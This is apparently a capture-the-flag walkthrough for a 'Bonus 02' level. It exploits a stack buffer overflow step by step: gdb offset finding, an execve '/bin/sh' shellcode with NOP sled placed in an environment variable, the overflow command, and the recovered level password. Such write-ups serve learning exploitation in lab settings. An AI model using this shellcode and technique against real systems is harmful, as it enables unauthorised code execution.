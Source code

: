 # Bonus 02 Walkthrough

## Binary analysis

The binary is vulnerable to a buffer overflow. By overflowing the buffer, we can overwrite the return address and redirect execution to shellcode placed in an environment variable, similar to previous levels. The offset to the return address is 23 bytes into the second argument.

## Exploitation

By browsing the code, we noticed we have two ways of overflowing up to the return address:
```
export LANG="nl"
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```
or
```
export LANG="fi"
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

With gdb and a cyclic pattern for the first method, we find the offset (23 bytes) to the return address.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(gdb) p/x $eip
$1 = 0x38614137
```

We export the shellcode in an environment variable.
```bash
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
```

We find the address of the shellcode in the environment (using gdb and `x/2000s (char **)environ`).
```
(gdb) x/2000s (char **)environ
```

We overflow the buffer and overwrite the return address with the address of the shellcode:
```bash
./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
```

## Commands used

```
./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
cat /home/user/bonus3/.pass
```

## Result

After running the exploit, we get a shell as bonus3 and can read the password:

```
cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
